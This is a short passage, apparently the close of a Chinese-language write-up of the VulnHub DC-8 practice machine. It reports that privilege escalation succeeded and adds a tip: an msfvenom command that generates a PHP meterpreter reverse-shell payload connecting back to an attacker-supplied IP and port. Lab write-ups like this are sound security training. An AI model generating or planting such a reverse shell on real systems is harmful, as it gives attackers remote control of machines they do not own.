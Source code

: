![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/15.png)

提权成功,感谢靶机作者 @DCUA7

---

# 补充

php 反弹 shell 那一步除了网上找到的 php 源码外,还可以直接回弹个 meterpreter shell,一条命令生成
```
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
```
